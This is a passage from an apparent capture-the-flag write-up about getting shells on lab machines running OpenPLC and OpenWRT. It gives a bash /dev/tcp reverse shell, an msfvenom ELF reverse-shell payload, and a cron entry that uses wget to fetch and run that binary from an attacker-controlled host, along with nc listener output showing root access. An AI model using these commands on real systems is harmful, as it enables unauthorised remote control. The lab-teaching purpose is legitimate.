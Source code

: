 But there’s never a connection back to my host.

#### Getting Shell

The exploit on OpenPLC seems to lock up the webserver, so I can’t get a second shell by just exploiting it again. I’ll use `bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1 &'` to kick off another shell in the background, to get a few shells for the upcoming process.

I can try a [Bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but it also doesn’t work because Open-WRT doesn’t have Bash. I spent a long time trying to get a `mkfifo` [shell](https://www.youtube.com/watch?v=_q_ZCy-hEqg) to work, but failed.

What does work is generating a ELF binary reverse shell with `msfvenom`:

```

oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.84 LPORT=4444 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev

```

I’ll upload it to attica01, and then host it with Python there:

```

root@attica01:~# python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...

```

Now in another shell I’ll listen on 4444 with `nc`. In the Scheduled Tasks panel, I’ll enter:

```
* * * * *  wget http://192.168.1.84:9999/rev; chmod +x rev; ./rev

```

When the minute rolls, there’s a request at the webserver on the VM:

```
192.168.1.1 - - [26/Jul/2024 19:16:00] "GET /rev HTTP/1.1" 200 -

```

Then there’s a connection at `nc`:

```

root@attica01:~# nc -lnvp 4444                                      
Listening on 0.0.0.0 4444
Connection received on 192.168.1.1 48506
‍id
uid=0(root) gid=0(root) groups=0(root)

```
